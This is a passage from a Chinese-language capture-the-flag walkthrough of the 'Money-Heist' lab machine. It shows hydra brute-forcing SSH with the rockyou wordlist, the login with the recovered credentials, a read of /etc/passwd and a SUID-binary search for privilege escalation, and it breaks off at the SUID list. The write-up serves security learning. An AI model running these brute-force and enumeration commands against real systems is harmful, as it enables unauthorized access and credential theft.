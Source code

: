 好像能推测出一个用户名：arturo，没有密码。其他没找到隐藏链接。只能尝试使用 rockyou 爆破 55001 ssh 端口：

```
hydra -t 20 -l arturo -P ~/tools/dict/rockyou.txt ssh://192.168.5.29 -s 55001

[55001][ssh] host: 192.168.5.29   login: arturo   password: corona
```

使用得到的用户凭据进行 ssh 登陆：

```
ssh arturo@192.168.5.29 -p 55001
```

先看看系统有哪些可利用的用户：

```
arturo@Money-Heist:/home$ cat /etc/passwd|grep bash

root:x:0:0:root:/root:/bin/bash
tokyo:x:1000:1000:tokyo,,,:/home/tokyo:/bin/bash
arturo:x:1002:1002:,,,:/home/arturo:/bin/bash
denver:x:1003:1003:,,,:/home/denver:/bin/bash
nairobi:x:1004:1004:,,,:/home/nairobi:/bin/bash
```

ls 看到 secret.txt 提示：

```
arturo@Money-Heist:~$ cat secret.txt

/*/ Arturo gets phone somehow and he call at police headquater /*/

	" Hello, I'm Arturo, I'm stuck in there with almost 65-66 hostages,
       	and they are total 8 with weapons, one name is Denver, Nairo.... "
```

得到了 2 个名字：denver, nairo 可能是关键用户突破口。

查看 arturo 用户是否有特权，sudo -l 没有内容，查看 suid 程序：

```
find / -perm -u=s -type f 2>/dev/null

/bin/sed
/bin/nc.openbsd
/bin/fusermount
/bin/mount
/bin/ping6
/bin/ping
/bin/umount
/bin/su
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/gdb
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```